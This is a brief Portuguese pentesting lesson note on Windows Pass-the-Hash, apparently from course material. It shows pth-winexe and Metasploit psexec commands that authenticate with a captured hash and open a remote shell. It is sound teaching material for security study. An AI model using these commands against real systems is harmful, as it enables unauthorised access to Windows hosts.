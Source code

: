 <h1 align="center">Pass the Hash</h1>
<hr>

  Outra tecnica bem interessante que nos temos no Windows eh o <span style='color:var(--mk-color-green)'>Pass The Hash</span> , essa tecnica quando a gente obtem hashes de sistema  e nao conseguimos quebrar eles a gente pode utilizar esses hashes para nos AUTENTICAR no sistema  mesmo sem saber a senha.

Existe um outro programa no Kali chamado <span style='color:var(--mk-color-red)'>pth-winexe</span>  funciona como o mesmo comando da aula passada porem ele permite voce passar o hash ao inves da senha . Exemplo:

```sh
pth-winexe -U rogerio%<HASH> //<IP DO SERVIDOR> cmd.exe
```

Tecnica absolutamente interessantes pois em alguma hora nao conseguiremos quebrar os hashes dos usuarios

Podemos fazer o mesmo no metasploit com o psexec:

```sh
msf5 exploit(windows/smb/psexec) > set SMBPass <HASH>
msf5> exploit
```